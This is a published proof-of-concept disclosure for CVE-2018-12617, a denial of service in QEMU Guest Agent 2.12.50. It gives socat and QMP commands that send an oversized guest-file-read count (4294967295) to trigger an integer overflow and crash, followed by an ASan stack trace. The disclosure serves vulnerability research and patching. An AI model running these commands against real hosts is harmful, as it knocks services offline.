 Exploit Title: QEMU Guest Agent Denial of Service<br>
Date: 2018-06-07<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.qemu.org/<br>
Software Link: https://www.qemu.org/download/<br>
Version: 2.12.50 and earlier<br>
Tested on: 2.12.50<br>
CVE : CVE-2018-12617<br>
<br>
QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket.<br>
<br>
1st, execute the guest-agent using the following command:<br>
<br>
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp<br>
<br>
2nd, on the other console, connect to the UNIX socket using socat:<br>
<br>
$ socat unix-connect:/tmp/qga.sock -<br>
<br>
3rd, enter the following QMP command:<br>
<br>
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}<br>
{"return": 1000}<br>
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}<br>
<br>
The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.<br>
<br>
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107<br>
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)<br>
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14<br>
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5<br>
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168<br>
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11<br>
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626<br>
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5<br>
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13<br>
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15<br>
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9<br>
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23<br>
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)<br>
<br>
References:<br>
1. https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html<br>

